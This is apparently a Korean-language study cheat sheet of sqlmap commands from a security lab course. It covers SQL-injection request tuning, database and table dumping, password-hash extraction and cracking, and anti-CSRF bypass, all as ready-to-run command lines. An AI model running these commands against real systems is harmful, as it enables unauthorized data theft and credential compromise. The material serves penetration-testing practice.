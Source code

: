 ```
```sqlmap -r req.txt```

### 사용자 정의 SQLMap 요청
```
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap -u www.target.com --data='id=1' --method PUT
```

### Prefix/Suffix
```sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"```

### Level/Risk
```sqlmap -u www.example.com/?id=1 -v 3 --level=5```

### UNION SQLi 튜닝
```
sqlmap -u "http://94.237.54.42:37117/case5.php?id=1" --dump -T flag5 --level=5 --risk=3 --no-cast
sqlmap -u "http://94.237.54.42:37117/case5.php?id=1" --batch --dump -T flag5 -D testdb --no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries
```
-  sqlmap -u "http://94.237.58.147:57029/case6.php?col=id" --batch --dump --prefix='`)'
-  sqlmap -u "http://94.237.58.147:57029/case7.php?id=1" --batch --dump -D testdb --no-cast --dbms=MySQL --union-cols=5

<br/><br/>
## 1. 데이터베이스 열거

### Basic DB Data 열거
```sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba```

### 테이블 열거
```sqlmap -u "http://www.example.com/?id=1" --tables -D testdb```<br/>
```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb```

### 테이블/행 열거
```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname```<br/>
```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3```

### 조건 열거
```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"```

### 전체 DB 열거
```sqlmap -u "http://94.237.58.147:32720/case1.php?id=1" --batch --dump -D testdb -T flag1 --no-cast --dbms=MySQL```

## 2. Advanced Database 열거

### DB 스키마 열거
```sqlmap -u "http://www.example.com/?id=1" --schema```

### 데이터 검색
```sqlmap -u "http://www.example.com/?id=1" --search -T user```<br/>
```sqlmap -u "http://www.example.com/?id=1" --search -C pass```

### 비밀번호 열거 및 cracking
```sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users```

### DB 사용자 비밀번호 열거 및 cracking
```sqlmap -u "http://www.example.com/?id=1" --passwords --batch```

## 3. 웹 애플리케이션 보호 우회

### Anti-CSRF Token Bypass
```sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"```

### Unique Value Bypass
```sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI```
```